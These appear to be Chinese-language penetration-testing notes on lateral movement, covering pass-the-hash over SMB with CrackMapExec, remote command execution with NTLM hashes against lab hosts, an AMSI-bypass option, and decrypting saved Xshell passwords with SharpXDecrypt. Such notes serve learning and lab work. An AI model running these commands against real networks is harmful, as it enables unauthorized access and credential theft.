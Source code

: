 [MSF使用详解-安全客 - 安全资讯平台 (anquanke.com)](https://www.anquanke.com/post/id/235631#h2-0)

## 内网渗透手段





### 哈希传递

[CrackMapExec 域渗透工具使用-CSDN博客](https://blog.csdn.net/qq_42077227/article/details/130279040)
[Kerberos域渗透的那些事 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/10189?time__1311=Cqjx2DnDuAYYqGNDQiu0gDcG1bPY5P%2B3x)

适用场景：内网中大量主机密码相同。
hash 传递的原理是在认证过程中，并不是直接使用用户的密码进行认证的，而是使用用户的hash值，因此，攻击者可以直接通过LM Hash和NTLM Hash访问远程主机或服务，而不需要提供明文密码。在Windows系统中，通常会使用NTLM身份认证，NTLM是口令加密后的hash值。PTH是基于smb服务（139端口和445 端口

```java
proxychains4 crackmapexec smb 172.22.1.2 -u administrator -H10cf89a850fb1cdbe6bb432b859164c8 -d xiaorang.lab -x "type Users\Administrator\flag\flag03.txt"   //-x 是执行的命令
```



```	java
-x 通过cmd.exe 执行命令
-X 通过cmd.exe 调用执行powershell命令
crackmapexec smb 192.168.216.144 -u 'administrator' -p 'pass1234!' -x 'whoami'
或者使用ntlm hash
crackmapexec smb 192.168.216.144 -u 'administrator' -H 'aad3b435b51404eeaad3b435b51404ee:ff1a0a31d936bc8bf8b1ffc5b244b356' -x 'whoami'
默认情况下会自动选择登录域，-d可以指定域登录，-x 要执行的命令
CME将按以下顺序执行命令
1.wmiexec：通过WMI执行命令
2.atexe：通过Windows任务调度程序调度任务来执行命令
3.smbexec：通过创建和运行服务来执行命令

-X '$PSVersionTable' 使用查看powershell 版本环境命令 ，--amsi-bypass /path/payload 执行powershell

```

## 解密Xshell密码

```java
K:\ADLAB\渗透>SharpXDecrypt.exe "C:\Users\c'x'k\Documents\NetSarang Computer\7\Xshell\Sessions"
```

![image-20240802165637015](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240802165637015.png)



















